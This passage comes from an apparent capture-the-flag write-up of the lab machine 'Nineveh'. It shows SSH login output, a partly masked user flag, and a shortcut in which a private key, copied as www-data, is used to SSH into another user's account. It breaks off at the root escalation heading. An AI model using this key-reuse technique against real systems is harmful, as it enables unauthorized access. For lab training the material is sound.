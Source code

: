      * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    133 packages can be updated.
    66 updates are security updates.
                                                                                                                                                                                                            
                                                                                                                                                                                                            
    You have mail.                                                                                                                                                                                          
    Last login: Wed Apr 22 05:34:21 2020 from 10.10.14.24                                                                                                                                                    
    amrois@nineveh:~$
    

It loops over the three ports, and for each scans Nineveh with `nmap` using a
short timeout and no retries, directing the output to `/dev/null`. Then it
connects with SSH.

I can also grab `user.txt`:

    
    
    amrois@nineveh:~$ cat user.txt 
    82a864f9************************
    

### Shortcut - SSH from localhost

On first solving, I didn’t look for `knockd`, but rather, I just made a copy
of the private key in `/dev/shm` on Nineveh.

    
    
    www-data@nineveh:/dev/shm$ chmod 600 .id_rsa
    www-data@nineveh:/dev/shm$ ssh -i .id_rsa amrois@10.10.10.43
    Could not create directory '/var/www/.ssh'. 
    The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
    ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
    Are you sure you want to continue connecting (yes/no)? yes
    Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
    Ubuntu 16.04.2 LTS
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    133 packages can be updated.
    66 updates are security updates.
    
    
    You have mail.
    Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
    amrois@nineveh:~$
    

## Priv: amrois –> root

### Enumeration
